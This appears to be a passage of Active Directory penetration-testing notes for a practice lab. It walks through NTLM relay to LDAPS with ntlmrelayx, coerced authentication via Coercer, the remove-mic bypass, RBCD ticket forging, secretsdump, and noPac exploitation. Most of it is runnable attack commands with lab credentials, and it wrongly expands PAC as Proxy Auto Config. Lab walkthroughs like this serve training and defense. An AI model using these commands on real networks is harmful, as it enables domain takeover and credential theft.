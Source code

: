 - We can continue with RBCD exploitation (with getST to call s4u2proxy)

- If we specify a loot dir all the informations on the ldap are automatically dumped

`ntlmrelayx.py -6 -wh wpadfakeserver.essos.local -t ldaps://meereen.essos.local -l /workspace/loot`

**Another thing we could do is also relay to smb server just like responder**

# Coerced auth smb + ntlmrelayx to ldaps with drop the mic
We can coerce a connection from meereen DC to our host using multiple methods (petitpotam, printerbug, DFSCoerce). To force a coerce without choosing between the different methods, we can use the all-in-one tool who just came up coercer

**It is not possible to relay smb connection to ldap(s)** connection **without using CVE-2019-1040 a.k.a remove-mic** (en.hackndo.com/ntlm-relay)  (www.thehacker.recipes/ad/movement/ntlm/relay).
- Start the relay with remove mic to the ldaps of meereen.essos.local.
`ntlmrelayx -t ldaps://meereen.essos.local -smb2support --remove-mic --add-computer removemiccomputer --delegate-access`

- Run the coerce authentication on braavos (braavos is a windows server 2016 up to date so petitpotam unauthenticated will not work here)
`python3 coercer.py -u khal.drogo -d essos.local -p horse -t braavos.essos.local -l 192.168.56.1`
`./Coercer.py coerce -u khal.drogo -d essos.local -t braavos.essos.local  -l 10.124.17.233`

- If the attack worked we can now exploit braavos with RBCD
`getST.py -spn HOST/BRAAVOS.ESSOS.LOCAL -impersonate Administrator -dc-ip 192.168.56.12 'ESSOS.LOCAL/removemiccomputer$:_53>W3){OkTY{ej'`

- And use that ticket to retreive secrets
```
export KRB5CCNAME=/workspace/Administrator.ccache
secretsdump -k -no-pass ESSOS.LOCAL/'Administrator'@braavos.essos.local
```

# AD exploit from a user 

## nopac (PAC => Proxy Auto Config ) : CVE-2021-42287.

### Scanning
```
crackmapexec smb 192.168.56.0/24  -M nopac -u 'samwell.tarly' -p 'Heartsbane'

#or 

git clone https://github.com/Ridter/noPac.git
cd noPac

python3.8 scanner.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -dc-ip 192.168.56.11

```

#### Auto exploit with nopac.py
```
python3.8 noPac.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -dc-ip 192.168.56.11

#or Auto get shell

python3.8 noPac.py  north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -dc-ip 192.168.56.11 -dc-host WINTERFELL -shell --impersonate administrator 
```
